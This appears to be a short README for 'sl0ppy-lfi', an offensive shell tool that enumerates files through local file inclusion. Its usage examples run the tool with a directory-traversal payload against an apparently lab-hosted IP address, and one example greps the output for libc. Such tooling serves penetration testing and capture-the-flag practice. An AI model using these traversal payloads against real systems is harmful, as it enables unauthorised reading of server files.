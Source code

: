 # sl0ppy-lfi
small lfi enum tool 


# Usage 
# enum all 
./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../

# enum specific stuff like only libc
./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"
